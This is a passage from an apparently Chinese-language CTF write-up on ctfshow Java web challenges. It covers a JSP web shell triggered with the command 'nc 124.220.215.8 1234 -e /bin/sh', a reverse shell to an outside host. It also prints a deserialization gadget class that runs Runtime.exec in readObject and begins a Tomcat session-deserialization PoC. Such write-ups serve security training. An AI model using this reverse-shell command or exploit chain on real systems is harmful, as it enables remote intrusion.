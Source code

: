 ```java  
    }    
    
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {    
        Field field = obj.getClass().getDeclaredField(fieldName);    
        field.setAccessible(true);    
        field.set(obj, value);    
    }    
    
}  
```  
写入后，访问`/hack.jsp`  
传入`huahua=nc 124.220.215.8 1234 -e /bin/sh`  
## Web858  
`tomcat的session反序列化`  
https://www.freebuf.com/articles/web/242782.html  
`User`类中存在`readObject`的点，并且存在`RCE`  
```java  
package com.ctfshow.entity;  
   
import java.io.IOException;  
import java.io.ObjectInputStream;  
import java.io.Serializable;  
   
public class User implements Serializable {  
    private static final long serialVersionUID = -3254536114659397781L;  
    private String username;  
    private String password;  
   
    public String getUsername() {  
        return username;  
    }  
   
    public void setUsername(String username) {  
        this.username = username;  
    }  
   
    public String getPassword() {  
        return password;  
    }  
   
    public void setPassword(String password) {  
        this.password = password;  
    }  
   
    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {  
        in.defaultReadObject();  
        Runtime.getRuntime().exec(this.username);  
    }  
   
   
}  
```  
根据上面的复现文章，尝试打一下  
构造`Poc`  
```java  
package com.ctfshow;    
    
import com.ctfshow.entity.User;    
    
import java.io.FileNotFoundException;    
import java.io.FileOutputStream;    
```